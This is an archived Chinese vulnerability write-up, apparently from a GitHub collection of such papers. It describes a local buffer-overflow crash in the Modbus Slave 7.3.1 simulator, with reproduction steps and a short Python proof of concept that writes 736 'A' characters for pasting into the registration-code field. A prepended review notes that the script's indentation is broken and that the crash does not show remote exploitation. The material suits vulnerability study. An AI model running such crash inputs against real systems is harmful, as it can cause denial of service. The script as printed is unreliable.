

# Modbus Slave 7.3.1 缓冲区溢出 POC

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Modbus Slave桌面模拟器
- 本文讨论：注册码736字符触发崩溃；未编号
- 版本、权限与配置前提：本地粘贴注册码，Windows测试；7.3.1与7.4.2边界含糊
- 资料类型：本地GUI崩溃PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- Python try/except块全无缩进，语法无效
- 只是本地输入崩溃，不证明Modbus协议远程攻击或可利用内存溢出
- 未给调试证据/CVE/固定版本

### 操作风险与恢复

- 畸形输入可能使进程/内核崩溃、设备重启或服务不可用；本文崩溃线索不自动证明稳定代码执行，需隔离环境和可恢复配置

### 待核与来源

- 异常类型、版本范围和根因待原始报告确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WZq_E9MxenTeIF5juckTrA)



Modbus Slave 7 概述：

Modbus Slave 是一款可在 32 个窗口中模拟多达 32 个从站设备，以促进更快的 PLC 编程过程的软件工具，对于从事与工业发展有关的系统自动化（例如机械，工厂装配线以及适合该领域的任何其他项目）的人们来说是一个有用的实用程序。您可以在 32 个独立的窗口中执行测试并模拟多达 32 个设备，从而加快 PLC 编程速度。在供应商交付从设备之前，可以进行仿真。从属设备生成的所有数据都是兼容的，并且易于被主应用程序访问，并且具有与 Modbus Poll 相同的 UI。它还支持以下功能：01、02、03、04、05、06、15、16、22 和 23。

Modbus Slave 7 下载：

https://modbustools.com/download.html

测试环境如下：  

Windows XP SP3 - Windows 7 Professional x86 SP1 - Windows 10 x64

重现步骤：

#1. - 下载并安装 Modbus Slave 

# 2. - 运行 python 脚本，它将创建 modbus.txt 文件。

# 3. - Modbus Slave 7.3.1 < 7.4.2 

# 4. - 连接 -> 连接

# 5. - 将 txt 文件的字符粘贴到注册码

# 6. - 按 “确定” 按钮

# 7. - 崩溃

POC：  

```
#!/usr/bin/python
exploit = 'A' * 736
try:
file = open("Modbus.txt","w")
file.write(exploit)
file.close()
print("POC is created")
except:
print("POC not created")
```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
